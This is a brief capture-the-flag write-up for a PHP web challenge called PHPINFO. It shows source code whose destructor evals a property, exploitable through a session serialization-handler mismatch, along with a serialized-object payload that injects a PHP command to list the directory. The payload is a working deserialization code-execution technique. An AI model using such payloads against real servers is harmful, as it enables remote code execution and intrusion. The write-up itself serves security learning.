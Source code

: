 # Challenge
```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
   public $mdzz;
   function __construct()
   {
	   $this->mdzz = 'phpinfo();';
   }
   function __destruct()
   {
	   eval($this->mdzz);
   }
}
if(isset($_GET['phpinfo']))
{
   $m = new OowoO();
}
else
{
   highlight_string(file_get_contents('index.php'));
}
?>
```
# Solution
payload:
```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

# Refference 
+ [jarvisoj : PHPINFO](http://web.jarvisoj.com:32784/)
+ [chybeta : PHPINFO](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#PHPINFO)